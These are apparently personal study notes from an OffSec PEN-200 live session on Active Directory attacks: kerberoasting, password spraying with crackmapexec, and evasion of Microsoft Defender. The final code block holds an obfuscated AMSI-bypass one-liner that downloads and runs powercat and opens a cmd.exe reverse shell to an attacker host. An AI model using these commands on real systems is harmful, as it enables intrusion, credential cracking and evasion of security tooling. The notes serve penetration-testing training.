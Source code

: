 # OffSec Live: PEN-200

author:: Nathan Acks  
date:: 2022-08-26

## Active Directory Enumeration & Exploitation, Part 2

`Get-DomainUsers -SPN` will list AD service accounts using `PowerView.ps1`.

In AD, the domain controller will grant a service ticket for *any* service to *any* user. Access is enforced by the *service* machine.

Since AD tickets are encrypted using account password hashes - so if weak passwords are chosen for service accounts, tickets can be cracked to retrieve service account passwords.

There is an `Invoke-Kerberos.ps1` PowerShell module out there that does native kerberoasting from PowerShell. Output can be passed to Hashcat, among others. Be sure to set the `-Width` parameter (vixx recommends 8000) when using `Out-File` with this module, or this function won't output the entire ticket!

```powershell
Invoke-Kerberoast -OutputFormat Hashcat |
	Select-Object Hash |
	Out-File -filepath "$FILE_PATH" -Width 8000
```

SSH port forwarding is actually using SOCKS5 under the hood. This is important to know when setting up tools like `proxychains`.

There's a tool called `crackmapexec` that allows cracked passwords to be sprayed across an AD environment (available in the Kali repos). Since SMB shares are both common and often contain interesting files, this is a good service to try to gain (indiscriminate) access to. (Note that you *shouldn't* use password spraying to try to crack user passwords, as doing so will likely lead to account lockouts and subsequent alarms. Instead, use spraying to determine user access.)

```bash
crackmapexec smb $TARGET_NETWORK/$TARGET_NETMASK \
	-u $TARGER_USER -p $CRACKED_PASSWORD 2> /dev/null
```

Microsoft Defender now detects ImPacket PSEXEC and SMBEXEC execution attempts.

The SCShell fileless lateral movement tool is generally *not* detected by Microsoft Defender (at least as of this course). It does require RPC to be available on the target, though this is common in AD environments.

Powercat is a reimplementation of netcat in PowerShell. Helpful!

A one-liner to bypass AMSI and fire up a PowerShell reverse shell using Powercat:

```powershell
[REF].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true); IEX (New-Object System.Net.Webclient).DownloadString("https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1"); powercat -c $ATTACKER_IP -p $ATTACKER_PORT -e cmd.exe
```

* [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
* [Join OffSec Live](https://learn.offensive-security.com/offsec-live-webinars)
* [PowerShellMafia / PowerSploit / Recon / PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [Using PowerShell](../notes/powershell.md)
* [EmpireProject / Empire / module_source / credentials / Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)
* [Kerberos](../notes/kerberos.md)
* [Using Hashcat](../notes/hashcat.md)
* [Mr-Un1k0d3r / SCShell](https://github.com/Mr-Un1k0d3r/SCShell)
* [besimorhino / powercat](https://github.com/besimorhino/powercat)
